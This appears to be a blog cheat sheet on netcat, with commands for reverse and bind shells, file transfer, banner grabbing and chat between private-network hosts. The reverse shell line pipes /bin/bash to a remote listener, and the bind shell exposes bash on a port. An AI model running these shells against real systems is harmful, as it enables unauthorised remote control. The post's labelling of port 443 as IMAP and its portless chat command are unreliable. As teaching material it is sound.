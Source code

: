 ```yaml
---
layout: post
title: 'Netcat'
permalink: 'netcat'
category: 'notes'
subcategory: 'cheat-sheets'
---
```


## Table of Contents
* [Reverse shell](#reverse-shell)
* [Bind shell](#bind-shell)
* [File transfer](#file-transfer)
* [Banner grabbing](#banner-grabbing)
* [Raw chat](#raw-chat)

Netcat can read & write TCP/UDP ports. Here are a few different use-cases for it.

## Reverse Shell
A Reverse Shell involves opening a port locally and then, getting a remote node to send you a shell. As a metaphor, imagine Bob has a mailbox (the port). Since he is interested in what is going on elsewhere, he gets Alice to give him a subscription to the city newspaper (a shell) where she lives. Instead of driving downtown and directly probing for information, Bob simply waits for the newspaper to show up.

By the way, for those who have not caught on yet (took me a while) the character of Alice is used to denote “point A” while Bob is used as “point B.” Therefore, one can infer a direction by following the normal convention of “point A to point B.”

In the following example, Bob has the IP address of `192.168.5.2`.
```bash
nc -lnvp 8888			# Bob; the mailbox
```
```bash
nc -nv -e /bin/bash 192.168.5.2 # Alice; the newspaper
```
```bash
[ Intranet | Extranet ]
        Firewall
	   |
	   |
     {     |x----}	# Bob can't get a Bind Shell (inbound rules)
Alice{	   | 	 }Bob
     {~~~~~|~~~~>}	# So he uses a Reverse Shell (no proxy/outbound rules)  
     	   |     
	   |	  
```

## Bind Shell
```bash
nc -lnvp 8888 -e /bin/bash # binds a shell to port 8888
```
```bash
nc -nv 192.168.5.1 8888	   # accesses port/shell on the remote node
```

## File Transfer
Open a port, direct everything a file. Redirect file to recently opened port.
```bash
nc -lnvp 8888 > incoming.exe 	       		# do on system needing file
```
```bash
nc -nv 192.168.5.1 8888 < /path/to/file.exe 	# do on system with file
```

## Banner Grabbing
Banner grabbing is a technique used to collect service version information from a remote node. For example, each command sentence below provokes verbose output from a target.
```bash
nc -nv 192.168.5.2 25  # SMTP
nc -nv 192.168.5.2 110 # POP3
nc -nv 192.168.5.2 443 # IMAP
```

## Raw Chat
Output will be the same on both ends of the socket.
```bash
nc -lnvp 8888	   # server; his IP address = 192.168.5.1
nc -nv 192.168.5.1 # client; connects to server
```
